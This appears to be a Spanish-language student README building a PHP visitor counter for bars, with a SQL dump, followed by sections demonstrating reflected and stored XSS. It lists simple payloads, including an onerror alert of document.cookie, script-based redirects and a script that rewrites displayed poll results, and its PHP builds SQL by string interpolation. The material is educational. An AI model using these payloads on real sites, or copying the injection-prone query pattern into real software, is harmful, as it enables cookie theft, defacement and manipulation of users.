 # EL SALVA BARES

#### Vamos a crear un PHP, el cual nos contará el numero de personas que entran o salen en un bar dandole a Incrementar o Reducir (POR LA PROBLEMÁTICA DEL AFORO MÁXIMO DE LOS BARES)

Los datos se guardarán en una base de datos a la que hemos llamado p017, la tabla se llama personas y el campo (int) Numero:


```powershell
<?php
	$numero = isset($_GET['numero'])? $_GET["numero"]: "";
	$operacion = isset($_GET['operacion'])? $_GET["operacion"]: "";
	
	$var = "datos.ini";
		$base = parse_ini_file($var);		
		$php = new PDO($base["baseDeDatos"],$base["usuario"],$base["password"]);
		
		$con = $php->prepare("SELECT * from personas;");
		$con->execute();
		$registros = $con->fetchAll(PDO::FETCH_NUM);
		$numer = $registros[0][0];
		
	if($operacion == "incrementar")
	{
		$num = (int) $numer + 1;
		$top = $php->prepare("Update `personas` set Numero='$num' where Numero='$numer';");
		$top->execute();
	}
	elseif($operacion == "reducir")
	{
		$num = (int) $numer - 1;
		$top = $php->prepare("Update `personas` set Numero='$num' where Numero='$numer';");
		$top->execute();
	}	
	else
	{
		$num = (int) $numer;
	}
?>

<!DOCTYPE html>
<html>
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type">
<style type="text/css">
  .boton_personalizado{
    text-decoration: none;
    padding: 10px;
    font-weight: 600;
    font-size: 20px;
    color: #ffffff;
    background-color: #1883ba;
    border-radius: 6px;
    border: 2px solid #0016b0;
  }
  .boton_personalizado:hover{
    color: #1883ba;
    background-color: #ffffff;
  }
  </style>
<title>P017</title>
</head>
<body>
	<div id="pagina">
		<form action="./personasbar2.php" method="get">
			<p>
				<label>Número</label>   
				<input type="text" name="numero" value="<?php echo "$num"; ?>" maxlength="5" readonly="readonly"/>
			</p>
			<p>
				<input class="boton_personalizado" type="submit" name="operacion" value="incrementar"/>
			</p>
			<p>
				<input class="boton_personalizado" type="submit" name="operacion" value="reducir"/>
			</p>
		</form>
	</div>
</body>
</html>
```


## BASE DE DATOS

```powershell
SET SQL_MODE = "NO_AUTO_VALUE_ON_ZERO";
SET AUTOCOMMIT = 0;
START TRANSACTION;
SET time_zone = "+00:00";


/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;

--
-- Base de datos: `p017`
--

-- --------------------------------------------------------

--
-- Estructura de tabla para la tabla `personas`
--

CREATE TABLE `personas` (
  `Numero` int(11) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;

--
-- Volcado de datos para la tabla `personas`
--

INSERT INTO `personas` (`Numero`) VALUES
(4),
(4);
COMMIT;

/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;

```

-----------------------------------------------------------
## ATAQUES XSS

Podemos aumentar desde la barra de direcciones con la siguiente ruta:
http://localhost/personasbar2.php?numero=&operacion=incrementar
Podemos reducir desde la barra de direcciones con la siguiente ruta:
http://localhost/personasbar2.php?numero=&operacion=reducir

Editando el HTML eliminando el apartado "READONLY" podremos escribir en el interior de la celda, pero tambien deberiamos aumentar el tamaño de caracteres que acepta (maxlength).


---------------------------------------------------

## Otros ataques

#### XSS reflejado
Inyectamos el código:
```powershell
- <img src="/" onerror="alert(‘cadena')">
- <img src="/" onerror="alert(document.cookie)">
- <button type="button" onclick="alert(0)">Click me!</button>
- <button type="button" onclick="window.location.href = 'https://www.google.com/'">Click me!</button>
```
#### XSS persistente o almacenado
Es muy común en muchos sitios web que pidan votaciones para ver qué le parece mejor al cliente. En este caso inyectaremos simplemente el código 
```powershell
- <script>alert("XSS stored")</script>
```

#### XSS persistente o almacenado
Con este tipo de ataque conseguiremos que siempre se ejecute nuestro script, por lo que podemos obtener información de la web, de los usuarios, redirigir a otra web, …
Ejemplo:
```powershell
- <script>window.location.href = "https://www.google.com.com/";</script>
```
Incluso modificar la opinión de las personas
Ejemplo:
```powershell
- <script>document.getElementById("results").rows[0].cells[1].innerText = “TU OPINION HA CAMBIADO“</script>
```

